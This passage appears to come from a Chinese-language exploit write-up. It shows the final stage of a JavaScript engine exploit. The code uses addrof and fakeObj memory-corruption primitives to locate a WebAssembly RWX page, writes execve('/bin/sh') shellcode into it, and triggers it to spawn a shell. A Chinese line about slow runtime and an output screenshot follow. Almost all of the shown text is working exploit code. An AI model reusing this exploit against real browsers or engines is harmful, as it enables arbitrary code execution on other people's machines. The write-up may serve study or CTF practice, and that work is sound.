 ```plain
print("[+] get address of RWX Page");
let addr = addrof(wasmInstance);
fakeObj(mem, addr);
let code_addr = Int64.fromDouble(dv.getFloat64(0xf0 - 1, true));
print(`[+] rwx addr: ${code_addr}`);
fakeObj(mem, code_addr.asDouble());
print("[+] write shellcode");
let shellcode = [
  0x2fbb485299583b6an,
  0x5368732f6e69622fn,
  0x050f5e5457525f54n
];
let data_view = new DataView(mem);
for (let i = 0; i < 3; i++)
  data_view.setBigUint64(8 * i, shellcode[i], true);
print("[+] GetShell");
f();
```

exp运行结果如下图，因为有大量循环，所以运行稍慢。

[![](assets/1700528963-9a226a88a9cfa1de0fe3edcf06e88cc3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119200953-8c0df430-86d4-1.png)
